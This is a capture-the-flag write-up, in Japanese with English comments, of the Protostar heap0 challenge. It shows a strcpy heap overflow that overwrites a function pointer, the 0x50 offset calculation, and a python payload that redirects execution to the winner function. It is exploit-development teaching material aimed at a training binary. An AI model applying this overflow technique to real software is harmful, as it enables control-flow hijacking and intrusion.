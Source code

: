 # protostar heap 0

<!-- Let's take a look at the binary. Also this challenge is a bit different from the others, the goal is to run the `winner` function. Also I recompiled this challenge from source: -->
バイナリを見てみましょう。また、このチャレンジは他のチャレンジとは少し異なり、ゴールは `winner` 関数を実行することです。また、私はこのチャレンジをソースから再コンパイルしました。

```
$    file heap0
heap0: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=ca0d25fb47b05e42811810bf08e5376b33f64501, not stripped
$    pwn checksec heap0
[*] '/Hackery/pod/modules/heap_overflow/protostart_heap0/heap0'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$    ./heap0
data is at 0x56fde160, fp is at 0x56fde1b0
Segmentation fault (core dumped)
$    ./heap0 15935728
data is at 0x56c08160, fp is at 0x56c081b0
level has not been passed
```

<!-- So we can see it prints out what looks like two heap addresses, and takes in input as an argument. In addition to that we see that there is no PIE, and it is a 32 bit binary. When we take a look at the main function in Ghidra, we see this: -->
つまり、2つのヒープアドレスのようなものを出力し、引数として入力を受け取っていることがわかります。さらに、PIEがないこと、32ビットバイナリであることもわかります。Ghidraのmain関数を見てみると、こんな感じです。

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(undefined4 param_1,int param_2)

{
  char *ptr0;
  undefined **ptr1;
 
  ptr0 = (char *)malloc(0x40);
  ptr1 = (undefined **)malloc(4);
  *(code **)ptr1 = nowinner;
  printf("data is at %p, fp is at %p\n",ptr0,ptr1);
  strcpy(ptr0,*(char **)(param_2 + 4));
  (*(code *)*ptr1)();
  return 0;
}
```

<!-- So we can see a few things. First that it allocates two separate heap chunks, one `0x40` bytes big and the other just `4` bytes (`ptr0` and `ptr1`). Then it sets `ptr1` equal to the function `nowinner`. After that it prints the value of `ptr0` and `ptr1` (so that is where our two heap addresses come from). Proceeding that it copies over the input we gave it via an argument to `ptr0`, however doesn't check for an overflow. This gives us a heap overflow bug. Proceeding that it executes the address pointed to by `ptr1`. -->
これで、いくつかのことがわかります。
まず、2つの別々のヒープチャンクを確保します。1つは `0x40` バイトの大きさで、もう1つは `4` バイトだけです (`ptr0` と `ptr1`)。
そして、 `ptr1` を関数 `nowinner` と同じ値に設定します。
その後、 `ptr0` と `ptr1` の値を表示します (つまり、これが 2 つのヒープアドレスの由来となります)。
続けて、引数で与えた入力を `ptr0` にコピーしますが、オーバーフローをチェックしません。
これはヒープオーバーフローのバグになります。`ptr1` が指すアドレスを実行します。

<!-- So we have an overflow. With it we will use it to overwrite the value of `ptr1` to be that of the `winner` function. When we ran it, we can see that `ptr0` was at `0x56c08160` and `ptr1` was at `0x56c081b0` (for the second iteration of running it). So after `0x56c081b0 - 0x56c08160 = 0x50` bytes of space between the start of our input and the instruction pointer stored in `ptr1`. Next we need the address of `winner`: -->
つまり、オーバーフローが発生しています。これを利用して、 `ptr1` の値を `winner` 関数の値に上書きします。実行すると、`ptr0` の値は `0x56c08160` で、`ptr1` の値は `0x56c081b0` (実行の2回目の繰り返し) であることがわかります。つまり、 `0x56c081b0 - 0x56c08160 = 0x50` バイトのスペースが、入力の開始点と `ptr1` に格納されている命令ポインタの間にあるわけです。次に、`winner` のアドレスが必要です。

```
$    objdump -D heap0 | grep winner
080484b6 <winner>:
080484e1 <nowinner>:
```

With that, we have everything we need to solve the challenge:

```
$    ./heap0 `python -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'`
data is at 0x98ac160, fp is at 0x98ac1b0
level passed
```
